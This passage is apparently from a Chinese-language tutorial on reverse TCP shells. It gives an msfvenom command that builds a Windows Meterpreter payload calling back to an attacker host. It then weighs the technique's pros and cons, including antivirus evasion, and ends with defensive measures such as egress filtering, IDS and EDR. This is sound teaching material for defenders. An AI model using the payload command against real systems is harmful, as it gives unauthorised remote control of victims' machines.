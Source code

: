 *   **受害机执行 Msfvenom 生成的 Payload**：
    ```bash
    # 使用 msfvenom 生成可执行文件
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o /path/to/malicious.exe
    # 在目标机器上运行 malicious.exe
    ```
    一旦受害机运行此 `malicious.exe`，它将回连到 `msfconsole` 并建立一个 Meterpreter 会话。

## 四、Reverse TCP Shell 的优势与劣势

### 4.1 优势

1.  **穿透防火墙和 NAT**：这是最主要的优势。大多数防火墙配置为允许内部网络发起到外部的出站连接，而阻止外部到内部的入站连接。反向 Shell 利用了这一默认配置。
2.  **更强的隐蔽性**：Payload 只需要执行一次，然后通过出站连接建立一个控制通道。通常比正向 Shell 更难被入侵检测系统（IDS）识别，因为出站流量通常审查较少。
3.  **适应动态 IP**：如果受害机器的 IP 是动态的，用反向 Shell 仍然可以建立连接，因为它主动回连到攻击者已知的 IP 地址。
4.  **易于部署和管理**：Metasploit 等工具提供了高度自动化的功能，简化了反向 Shell 的生成和管理。

### 4.2 劣势

1.  **依赖 LHOST 可达性**：攻击者需要有一个外部网络可访问的 IP 地址 (LHOST) 和开放的监听端口。如果攻击者位于严格的防火墙或 NAT 后面，可能需要端口转发或使用 VPS 等中继。
2.  **断开连接后需重新执行**：如果 Shell 会话断开，通常需要重新执行受害机器上的 Payload 才能再次建立连接（除非有维持性机制）。
3.  **Payload 容易被检测**：用于生成反向 Shell 的 Payload (尤其是常见的如 Meterpreter) 的签名可能已被杀毒软件识别。需要结合编码、加密、自定义 Shellcode Loader 等技术进行免杀。
4.  **网络隧道可能被阻止**：某些先进的防火墙和代理服务器可能会审查出站流量，并阻止非标准端口上的 Shell 连接或检测到 Shellcode 的特征。

## 五、安全性考虑与防御措施

Reverse TCP Shell 是一种强大的攻击手段，因此理解其防御措施至关重要。

1.  **限制出站连接**：
    *   实施严格的**出站防火墙规则**，只允许必要的端口和协议进行出站连接。例如，只允许 80/443 (HTTP/HTTPS)、53 (DNS) 等常见端口的出站。阻止未知端口的外发连接。
    *   使用**代理服务器**，强制所有出站流量通过代理，并对代理流量进行深度包检测和过滤。
2.  **入侵检测与防御系统 (IDS/IPS)**：
    *   部署 IDS/IPS 来分析网络流量，检测异常的出站连接模式、已知的 Shellcode 特征或 Meterpreter 等 Payload 的通信模式。
3.  **终端安全防护 (EDR/AV)**：
    *   使用现代的杀毒软件 (AV) 和终端检测与响应 (EDR) 解决方案，这些工具能够检测并阻止恶意 Payload 的执行、进程注入、异常的行为（如 Shellcode 执行、未经授权的网络连接）。
4.  **最小权限原则**：
    *   运行应用程序和服务时遵循最小权限原则，即使某程序被攻陷，也能限制攻击者的破坏范围。
5.  **定期安全审计和漏洞管理**：
    *   定期扫描和修复系统漏洞，防止攻击者通过漏洞植入反向 Shell。
6.  **用户安全意识培训**：
    *   提高员工对钓鱼攻击、恶意附件和可疑链接的警惕性，减少社会工程学攻击成功的几率。
7.  **流量监控与日志分析**：
    *   持续监控网络流量和系统日志，寻找异常的出站连接或可疑的进程活动。

## 六、总结

Reverse TCP Shell 凭借其卓越的穿透防火墙能力，成为渗透测试和恶意活动中获取远程控制的黄金标准。其核心在于将被动监听的角色从受害者转移到攻击者，使得攻击更易于成功。然而，随着网络安全技术的进步，高级的安全解决方案也在不断演进，通过限制出站流量、强化端点检测和行为分析，可以有效降低反向 Shell 攻击的成功率。理解其工作原理、优点和缺点，是进行有效攻击和防御的基础。